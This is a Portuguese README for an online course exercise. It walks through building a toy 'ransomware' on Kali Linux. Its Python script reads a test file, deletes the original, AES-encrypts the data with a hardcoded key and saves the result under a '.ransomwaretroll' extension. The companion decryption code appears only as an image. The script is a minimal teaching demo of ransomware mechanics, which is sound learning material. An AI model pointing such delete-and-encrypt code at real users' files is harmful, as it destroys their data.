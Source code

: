 # Projeto desafio ransomwre

Projeto criado para curso da DIO utilizando o a distribuição Kali linux. 
## Passo a passo

1. Abrir o PROTON VPN (ou outro VPN, no caso esse eu já conhecia)
2. Abrir o Kali Linux
3. Abrir o prompt
4. Logar como root: digitar "sudo su" e, quando solicitado digitar a senha do sistema
5. Criar um diretorio: "mkdir projeto_ransowre"
6. Criar o arquivo descripto.py com o comando:"nano descripto.py"
7. digitar o codigo em python:


![capturadetela](/ProjetoDois/decripto.png)
 
8. Criar o arquivo encripta. py com o seghunte código:

import os
import pyaes

## abrir o arquivo a ser criptografado
file_name = "teste.txt"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## remover o arquivo
os.remove(file_name)

## chave de criptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)

## criptografar o arquivo
crypto_data = aes.encrypt(file_data)

## salvar o arquivo criptografado
new_file = file_name + ".ransomwaretroll"
new_file = open(f'{new_file}','wb')
new_file.write(crypto_data)
new_file.close()

![capturadetela](/ProjetoDois/encripto.png))
9.  Salvar o arquivo com o ctrl + O e encerrar o arquivo com o comando ctrl + x


10. Testar

